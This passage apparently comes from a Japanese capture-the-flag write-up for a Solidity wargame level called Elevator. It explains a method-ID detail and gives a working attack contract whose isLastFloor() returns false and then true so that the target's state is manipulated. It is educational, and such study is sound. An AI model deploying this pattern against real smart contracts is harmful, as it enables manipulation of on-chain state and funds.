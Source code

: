ちなみに、最初は `withdraw()` のメソッドIDを得る部分を
`bytes4(keccak256("withdraw(uint)"))` と書いていたのだが、上手く動かなかった。
正しくは `bytes4(keccak256("withdraw(uint256)"))` のようだ。

## 8. Elevator

```
interface Building {
  function isLastFloor(uint) view public returns (bool);
}


contract Elevator {
  bool public top;
  uint public floor;

  function goTo(uint _floor) public {
    Building building = Building(msg.sender);

    if (! building.isLastFloor(_floor)) {
      floor = _floor;
      top = building.isLastFloor(floor);
    }
  }
}
```

`Building.isLastFloor()` の1回目の呼び出しではfalseを返し、2回目の呼び出しでは
trueを返せば `top` をtrueにできる。

```
contract Elevator {
    function goTo(uint) public;
}

contract FakeBuilding {
    bool flag;

    function FakeBuilding() public {
        flag = true;
    }

    function goTo(uint) public {
        Elevator elevator =  Elevator(0xfe0206670305a64e6edc0a3c28f206eb8f508355);
        elevator.goTo(100);
    }

    function isLastFloor(uint) public returns (bool) {
        flag = !flag;
        return flag;
    }
}
```

`isLastFloor()` のシグネイチャにはC++でいうconstを意味する `view` 属性が付いて
いるので、本来はストレージの書き換えはコンパイルエラーになるべきなのだが、
(現状では) Solidityのコンパイラは通してしまう。
